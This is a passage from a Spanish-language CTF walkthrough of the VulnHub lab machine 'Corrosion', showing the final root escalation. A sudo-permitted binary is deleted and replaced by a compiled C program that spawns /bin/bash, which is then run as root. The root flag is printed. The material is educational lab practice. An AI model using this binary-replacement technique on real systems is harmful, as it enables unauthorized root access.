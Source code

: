 ```java
randy@corrosion:~/tools$ rm -rf easysysinfo
randy@corrosion:~/tools$ touch test.c
randy@corrosion:~/tools$ nano test.c 
```
Dentro del archivo test.c, creamos un archivo exploit tipo lenguaje c.
```java
#include <stdio.h>
#include <stdlib.h>

int main(void){
        system("/bin/bash");
        return 0;
}
```
Compilamos el archivo creado para hacerlo binario y remplazando con el nombre del archivo borrado.
```java
gcc test.c -o easysysinfo
```
Una vez compilado el binario volvemos a verificar los arvchivos con privelegios y lo ejecutamos.
```java
randy@corrosion:~/tools$ sudo -l
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User randy may run the following commands on corrosion:
    (root) PASSWD: /home/randy/tools/easysysinfo
randy@corrosion:~/tools$ ls -la
total 32
drwxrwxr-x  2 randy randy  4096 Jan 20 18:59 .
drwxr-x--- 17 randy randy  4096 Jul 30  2021 ..
-rwxrwxr-x  1 randy randy 16104 Jan 20 18:59 easysysinfo
-rwxr-xr-x  1 root  root    318 Jul 29  2021 easysysinfo.py
-rw-rw-r--  1 randy randy    92 Jan 20 18:55 test.c
```
Ejecutamos el archivo con privilegios
```java
randy@corrosion:~/tools$ sudo -u root /home/randy/tools/easysysinfo
root@corrosion:/home/randy/tools# whoami
root
root@corrosion:/home/randy/tools# cd ~
root@corrosion:~# ls -la
total 52
drwx------  7 root root 4096 Jul 30  2021 .
drwxr-xr-x 20 root root 4096 Jul 29  2021 ..
-rw-r--r--  1 root root  461 Jul 30  2021 .bash_history
-rw-r--r--  1 root root 3106 Aug 14  2019 .bashrc
drwx------  2 root root 4096 Apr 20  2021 .cache
drwx------  3 root root 4096 Jul 30  2021 .config
drwxr-xr-x  2 root root 4096 Jul 30  2021 creds
drwxr-xr-x  3 root root 4096 Jul 29  2021 .local
-rw-r--r--  1 root root   10 Jan 20 19:01 logs.txt
-rw-r--r--  1 root root  161 Sep 16  2020 .profile
-rw-r--r--  1 root root  251 Jul 30  2021 root.txt
-rw-r--r--  1 root root   66 Jul 30  2021 .selected_editor
drwxr-xr-x  3 root root 4096 Jul 29  2021 snap
-rw-r--r--  1 root root    0 Jul 30  2021 .sudo_as_admin_successful
root@corrosion:~# cat root.txt 
FLAG: 4NJSA99SD7922197D7S90PLAWE 

Congrats! Hope you enjoyed my first machine posted on VulnHub! 
Ping me on twitter @proxyprgrammer for any suggestions.

Youtube: https://www.youtube.com/c/ProxyProgrammer
Twitter: https://twitter.com/proxyprgrammer
```